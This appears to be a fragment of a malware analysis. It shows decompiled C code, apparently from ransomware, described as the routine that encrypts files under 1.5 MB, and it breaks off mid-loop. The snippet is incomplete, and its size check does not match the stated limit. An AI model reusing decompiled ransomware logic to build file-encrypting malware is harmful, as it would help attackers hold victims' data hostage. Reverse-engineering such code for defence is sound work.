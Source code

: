 Here is the C code for encrypting files under 1.5 MB in size, along with the graphis for the assembly code.

```cpp
//----- (00402880) --------------------------------------------------------
int __cdecl crypt-small-file_sub_403454(
        int a1,
        int a2,
        int *a3,
        char *a4,
        int a5,
        unsigned int a6,
        char *a7,
        char *a8,
        char *a9,
        char *a10,
        unsigned int a11)
{
  unsigned int v11; // edx
  int v12; // eax
  unsigned int v13; // edx
  int v15; // [esp+0h] [ebp-24Ch]
  char v16[16]; // [esp+1Ch] [ebp-230h] BYREF
  char v17[504]; // [esp+2Ch] [ebp-220h] BYREF
  unsigned int v18; // [esp+224h] [ebp-28h]
  char *v19; // [esp+228h] [ebp-24h]
  int v20; // [esp+22Ch] [ebp-20h]
  int v21; // [esp+230h] [ebp-1Ch]
  int v22; // [esp+234h] [ebp-18h]
  int v23; // [esp+238h] [ebp-14h]
  unsigned int v24; // [esp+240h] [ebp-Ch]
  unsigned int v25; // [esp+244h] [ebp-8h] BYREF
  int v26; // [esp+248h] [ebp-4h] BYREF

  v15 = 0;
  v25 = 0;
  v18 = 0;
  v19 = (char *)(a5 + 32);
  v26 = 32;
  v24 = 0;
  v20 = 0;
  sub_406D80(v16, a4, 0x10u);
  v18 = a6 - a6 % 0x10 - 16;
  v21 = GetFileAttribute_sub_406740();
  if ( v21 != -1 && GetFileAttribute_sub_406740() == -1 && a11 + 178 < 0x100000 )
  {
    if ( (v21 & 1) != 0 )
      SetFileAttributeW();
    v20 = CreateFileW_sub_406830();
    if ( v20 != -1 )
    {
      v22 = 0;
      v23 = 0;
      if ( SetFilePointerW() && (v23 || v22) )
      {
        SetFilePointerW();
        if ( CreateFileW_sub_406830() != -1 )
        {
          if ( GetLastError_sub_4069F0() != 183 )
          {
            sub_4034C0((int)v17, a3, a4, 1);
            do
            {
              v12 = ReadFile_sub_406820();
```